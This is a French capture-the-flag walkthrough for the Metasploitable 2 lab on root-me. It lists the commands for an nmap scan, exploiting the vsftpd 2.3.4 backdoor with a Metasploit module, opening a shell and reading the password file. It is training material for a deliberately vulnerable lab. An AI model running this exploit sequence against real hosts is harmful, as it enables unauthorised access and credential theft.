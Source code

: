 # Metasploitable 2


Une fois l'environnement virtuel démarré et kali linux lancé, il faut récupérer l'adresse de l'environnement virtuel (exemple : `ctf01.root-me.org`).

Il faut lancer nmap sur Kali Linux, il faut taper cette commande :<br>
```nmap -v -A ctf01.root-me.org```<br>
L'argument **-v** sert à augmenter le niveau de verbosité, forçant Nmap à afficher plus d'informations sur le scan qu'il effectue. Les ports ouverts sont indiqués au fur et à mesure où ils sont trouvés ainsi qu'une évaluation du temps qui reste à scanner si Nmap pense que cela prendra quelques minutes. Utilisez cette option deux fois pour encore plus de verbosité.<br/>
L'argument **-A** sert à détecter le système d'exploitation et la version.

En parallèle de l'analyse, il faut lancer Metasploit avec cette commande :<br>
```msfconsole```

Une fois que l'analyse nmap est terminée, une faille sur le port 21 est affichée :

![Image de nmap](1.png)

Il faut utiliser le nom de cette faille sur Metasploit. Il faut chercher si les deux versions sont identiques en tapant sur Metasploit :<br>
```search vsftpd```

Metasploit la possède, il faut donc l'utiliser en tapant :<br>
`use exploit/unix/ftp/vsftpd_234_backdoor`

Puis il faut saisir le RHOSTS *(hôte distant)* qui est vide par defaut, le RHOSTS correspond à l'adresse IP de l'environnement virtuel, elle est obtenue lors de l'analyse de nmap. La commande pour saisir le RHOSTS :<br>
`set RHOSTS 163.172.228.114`

Ceci fait, il faut lancer l'exploit en tapant :<br>
`exploit`

![Image de metasploit](2.png)

Ensuite, il faut éxécuter la commande `shell` *(pour entrer dans l'interpréteur de commande)* puis `ls` et le fichier `passwd` est listé. Il faut donc l'ouvrir et le mot de passe se trouve à l'intérieur.
<br>
<br>
<br>
**_Notes :_**

*Nmap est un scanneur de ports libre. Il est conçu pour détecter les ports ouverts, indentifier les services hébergés et obtenir des informations sur le système d'exploitation d'un ordinateur distant.*<br>
*Metasploit est un projet en relation avec la sécurité des systèmes informatiques. Son but est de fournir des informations sur les vulnérabilités de systèmes informatiques, d'aider à la pénétration.*